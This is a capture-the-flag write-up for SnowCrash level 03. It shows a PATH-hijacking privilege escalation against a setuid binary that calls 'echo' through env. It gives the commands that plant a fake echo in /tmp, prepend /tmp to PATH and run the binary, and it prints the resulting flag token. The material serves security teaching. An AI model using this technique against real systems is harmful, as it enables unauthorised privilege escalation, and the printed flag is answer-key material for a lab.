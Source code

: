 # Level 03

A quick reverse engineering of the binary shows us that it uses the system function to execute echo which is easy to exploit by making it execute the wrong echo

```c
  system("/usr/bin/env echo Exploit me");
```

The binary can execute getflag because it is owned by flag03

We start by creating a fake echo that will just getflag

```bash
echo getflag > /tmp/echo
```

We add it in first in the path so it overrides the actual echo which is in /bin

```bash
export PATH=/tmp:$PATH
```

Eventually we give everybody the rights to execute this file

```bash
level03@SnowCrash:/tmp$ chmod 777 echo
```

```bash
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

**Flag:** qi0maab88jeaj46qoumi7maus
